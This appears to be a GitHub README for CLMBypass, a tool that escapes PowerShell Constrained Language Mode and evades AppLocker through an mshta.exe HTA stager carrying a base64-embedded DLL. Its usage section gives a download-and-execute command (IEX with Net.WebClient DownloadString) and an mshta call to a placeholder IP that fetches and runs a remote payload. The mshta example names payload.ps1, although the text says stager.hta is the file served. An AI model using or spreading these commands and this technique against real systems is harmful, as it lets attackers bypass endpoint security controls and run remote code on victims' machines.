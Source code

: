 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

### contents
- payload.ps1
  - payload to be run in FullLanguage mode
- stager.hta
  - CLMBypass.dll is stored as base64
  - When a client accesses it, the DLL will be loaded dynamically
  - The powershell command to download the final payload is executed in the CLMBypass Runspace with FullLanguage mode
  - `payload.ps1` is downloaded and executed in FullLanguage mode
- Program.cs
  - C# source code
- CLMB.exe
  - Compiled as PE32 .NET Framework 4.5
- CLMBypass.exe
  - Compiled as PE32 .NET Framework 4.0

## usage
#### CLMBypass by itself (CLM, but no AppLocker)
```
C:\Users\CLMUser\Downloads>.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"
```

#### CLMBypass with stager (AppLocker and CLM)
```
C:\Users\CLMUser\Downloads>mshta.exe http://<ip>/payload.ps1
```
**NOTE:** This will cause a window with the rendered `stager.hta` to pop up, which can be closed without hindering the process.
